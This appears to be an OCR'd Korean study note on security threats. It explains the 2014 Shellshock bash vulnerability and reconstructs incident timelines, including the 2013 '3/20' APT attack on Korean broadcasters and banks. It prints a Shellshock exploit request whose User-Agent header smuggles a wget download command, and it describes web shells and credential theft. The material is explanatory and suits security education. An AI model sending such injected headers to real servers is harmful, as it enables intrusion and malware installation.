 # 보안 위협 정보 수집

## 보안 위협 이해

### 애플리케이션 취약점

2014년에 발생할 셸 쇼크(CVE-2014-6271, CVE-2014-7169) 취약점에 대해 알아보자.

2014년 9월 사용된 공격 방식은 bash 환경 변수로 저장되는 헤더 항목에 공격 구문을 삽입해 취약한 시스템을 공격하는 방식이었다.

```bash
telnet [ip] 80
GET /cgi-bin/test-cgi
...
User-Agent: (){:;}; wget -O /tmp/tmp # wget 명령을 이용해 다운로드한 파일을 tmp 디렉터리에 tmp 파일명으로 저장한다
```

대부분의 해킹 공격은 취약한 시스템을 공격하는 걸로 끝나지 않고, 자동화된 공격을 통해 취약한 시스템 접근을 확보한 후에 경유 시스템으로 많이 사용된다.

사례를 살펴보면

* 11/4: IDC 서버 이상 발견
  11/3 12:00부터 외부로 불생된 SSH 사전식 대응 공격 확인

* 11/4: 원인 분석 수행(침해사고 분석)
  BashShell 취약점 공격 확인
  악성코드 유입: http:// ... /bbs/skin/zero_vote/cpan_root

* 분석 결과 요약
  11/01: Bash shell 취약점 공격, 악성코드 설치
  11/03: 외부로 SSH 무작위 사전식 대입 공격
  11/04: 사고 인지 후 시스템 분석

많은 경우 관리 허점을 이용하며, 아직도 2006년 발표된 제로보드 취약점이 사용되고 있다.

### 지능형 지속 공격

2013년 3월 20일 국내 언론사 몇 곳의 업무 관련 시스템들이 동시 다발적으로 파괴되는 사태가 발생핬다. 이로 인해 실제로 방송이 중단되기도 했다.

* 2010년 이후 발생된 주요 사이버 공격 사례

  11/3/4 : 청와대, 금융 기관, 네이버 대상 DDoS 공격
  11/4/12 : 농협 전산망 마비
  13/3/20 : 주요 언론사 및 금융기관 전산망 동시 장애
  13/6/25 : 청와대 홈페이지 변조, 언론사 및 정부 전산센터 공격
  14/12/15 : 한국수자력발전 내부 정보 유출 공개

지능형 지속 공격은 처음 공격에서 최종 목표를 실행하기까지 최소 6개월 이상 관리자나 사용자 몰래 활동한다.

2015년 미국의 FBI 수배자 명단에 중국의 61398 부대 장교가 올라간 사건이 있었다. 이 장교들의 실명과 부대 명칭은 외국계 보안 업체를 통해 실체가 밝혀지기 시작했고 MANDIANT APT 1 보고서를 통해 APT 기법을 사용하는 해커 그룹의 특징과 실체를 구체적으로 밝혀냈다.

3/20 사태로 돌아가자. 공격 당시 공격자는 이미 확보했던 정보를 이용해 자동화된 스크립트 형태로 시스템 파괴 명령을 자동으로 실행시켰다. 방화벽 로그와 침해 시스템의 시스템 로그, 침입탐지 시스템 로그 등 사건에 연관된 모든 보안 로그를 분석했고, 일련의 추적을 통해 공격자의 타임 테이블을 구성했다.

공격 특징은 사용자 대역, 사무실 대역에 대한 악성코드 감염 / 감염된 내부 시스템을 경유해 서버 하드 디스크 파괴이다.

타임 테이블은

* 사전 준비
  웹쉘 업로드(2012/03/22, 2012/06/20) : 공격 대상 서버에 웹쉘 업로드, 파일 탈취 및 SSH 통신
  애플리케이션 공격(2012/9/4) : PHP 취약점을 이용한 원격 명령 실행
* 성공
  정보 유출(2012/10/13) : 공격 대상 서버에 웹쉘 업로드, 소스 압축 후 유출
  악성코드 배포(2012/10/18) : 공격 대상 서버에 악성코드 유포 링크 삽입
  악성코드 감염(2013/02/08) : 이미지 파일(bd.gif)를 이용해 악성코드 설치
  원격 접근(2013/03/03 00:54:21) : 데이터센터(IDC) 서버 접근
* 확산
  원격 접근 : (03/19 AM 2~4) 단일 소스 IP에서 다수 3389, AM 4~5 다수 SSH
  악성코드 감염 : (03/20 03:53:30) crw.exe 파일 동시 감염(10대 이상)
* 파괴
  2013/03/20 14시 전후 시스템 OS 부팅 영역 손상

공격자는 수년 전부터 다양한 방면으로 공격을 시도했다. 서버를 대상으로 App 취약점윌 이용해 반복적으로 웹쉘 설치 시도, 이후 내부 시스템에 대한 정보(네트워크, App, 사용자 접속 정보)를 꾸준히 수집했다.
때로 웹 서버에 악성코드를 삽입해 일반 사용자 및 내부 사용자에게 악성코드를 감염시키기도 했다.
공격받은 시스템의 복구/차단 과정을 반복적으로 관찰해 가장 효율적인(짧은 시간에 가장 많은 경로로 접근 가능한) 경로를 파악했다.
13/3월 사용자들이 많은 사무실 PC에 대해 공격을 시도해 시스템 관리자 PC가 악성코드에 감염됬고, 관리자 시스템에서 서버 접근 정보(IP, ID, PW)를 수집해 공격을 감행했다.
